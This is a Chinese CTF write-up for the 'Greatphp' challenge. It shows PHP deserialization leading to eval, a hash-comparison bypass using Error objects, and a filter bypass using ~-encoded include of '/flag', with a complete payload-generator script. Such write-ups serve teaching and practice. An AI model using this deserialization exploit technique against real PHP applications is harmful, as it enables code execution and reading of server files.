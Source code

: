 # [极客大挑战 2020]Greatphp
![](<./img/Pasted image 20230217114125.png>)

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

好消息——是反序列化
坏消息——考的不是反序列化

需要绕过`md5`和`sha1`的比较，第一个想到的是数组绕过，但是`syc`需要作为`eval`的参数，因此需要不能为数组

这里利用`Error`类绕过，其通过`__toString`魔术方法定义了隐式转换为字符串的方法，通过创建两个向字符串隐式转换结果相同的`Error`对象，即可令`md5`和`sha1`的结果相同，同时改变不影响转换结果的`Error`的某个属性，即可在此基础上使两个`Error`对象的弱相等比较结果为假

```php
<?php
$a = new Error("php_wa_sai_kou!", 233);
echo $a;
```

```
Error: php_wa_sai_kou! in /home/chen/proj/php/demo/index.php:2
Stack trace:
#0 {main}
```

创建一个简单的`Error`对象，观察到影响字符串表示的只有创建`Error`对象时的当前行号以及传递的错误消息

因此将两个创建`Error`对象的语句放在同一行，令错误消息相同，但错误码不同即可绕过棘手的相等性判断

```php
<?php
$a = new Error("php_wa_sai_kou!", 233); $b = new Error("php_wa_sai_kou!");
echo $a != $b && md5($a) === md5($b) && sha1($a) === sha1($b);
```

```
1
```

由于`Error`对象的字符串表示包含了杂七杂八的信息，因此简单地将要执行的代码作为错误消息构造出来的`Error`对象转换为字符串后并不能被`eval`正确执行

考虑到`eval`的实现利用了字符串拼接，可以通过`php`标签将各个部分隔离起来

```php
<?php
$message = "?><?php echo 'php_wa_sai_kou!';?>";
$err = new Error($message);
eval($err);
```

```
php_wa_sai_kou! in /home/chen/proj/php/demo/index.php:3
Stack trace:
#0 {main}
```

```php
if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)) {...}
```

这里过滤了双引号和左右括号，因此使用`include`关键字包含`/flag`，同时利用取反绕过

```php
<?php
$message = "?><?php include ~" . ~"/flag" . "?>";
$err = new Error($message);
eval($err);
```

![](<./img/Pasted image 20230217143303.png>)

最后序列化即可

```php
<?php

class SYCLOVER
{
    public $syc;
    public $lover;
}

$message = "?><?= include ~" . ~"/flag" . "?>";
$err1 = new Error($message, 1); $err2 = new Error($message, 2);

$payload = new SYCLOVER();
$payload->syc = $err1;
$payload->lover = $err2;

echo urlencode(serialize($payload));
```

![](<./img/Pasted image 20230217150313.png>)
